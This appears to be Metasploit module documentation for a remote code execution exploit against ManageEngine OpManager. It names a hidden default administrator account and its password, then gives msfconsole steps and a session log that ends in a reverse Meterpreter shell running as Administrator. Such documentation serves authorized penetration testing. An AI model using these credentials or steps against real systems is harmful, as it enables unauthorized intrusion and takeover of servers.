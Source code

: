 ## Description

This module exploits a default credential vulnerability in ManageEngine OpManager, where a
default hidden account "IntegrationUser" with administrator privileges exists. The account
has a default password of "plugin" which can not be reset through the user interface. By
log-in and abusing the default administrator's SQL query functionality, it's possible to
write a WAR payload to disk and trigger an automatic deployment of this payload.

## Vulnerable Application

[OpManager](https://www.manageengine.com/network-monitoring/) is an application designed
around "integrated network management".

This module has been verified against the following OpManager versions:

* v11.0
* v11.4
* v11.5
* v11.6

Installers:

* [OpManager Installers](http://archives.manageengine.com/opmanager/)

## Verification Steps

1. Start msfconsole
1. `use exploit/windows/http/manage_engine_opmanager_rce`
1. `set RHOST <IP addr of target system running OpManager>`
1. `exploit`
1. You should get a working Meterpreter session

## Scenarios

### Targeting Windows Server 2012 running OpManager v11.5

```
msf > use exploit/windows/http/manage_engine_opmanager_rce 
msf exploit(manage_engine_opmanager_rce) > set RHOST 10.0.2.12
RHOST => 10.0.2.12
msf exploit(manage_engine_opmanager_rce) > exploit

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] Access login page
[*] Location is [ http://10.0.2.12/apiclient/ember/index.jsp;jsessionid=B5903DA9A1DBA5592690EC69AF7FA27D ]
[*] Following redirection
[*] Retrieved API key [ 2eb58a9f104f29c8520d23243502cf5b ]
[*] Executing SQL queries
[*] Attempting to launch payload in deployed WAR...
[*] Attempting to launch payload in deployed WAR...
[*] Attempting to launch payload in deployed WAR...
[*] Sending stage (49667 bytes) to 10.0.2.12
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.12:49496) at 2017-06-20 15:13:50 -0500
[+] Deleted tomcat//webapps//r63xuE3q1gOAZsCQuJ.war
[!] This exploit may require manual cleanup of 'tomcat//webapps//r63xuE3q1gOAZsCQuJ' on the target

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : WIN-SI597APFOFH
OS          : Windows Server 2008 6.2 (amd64)
Meterpreter : java/windows
```
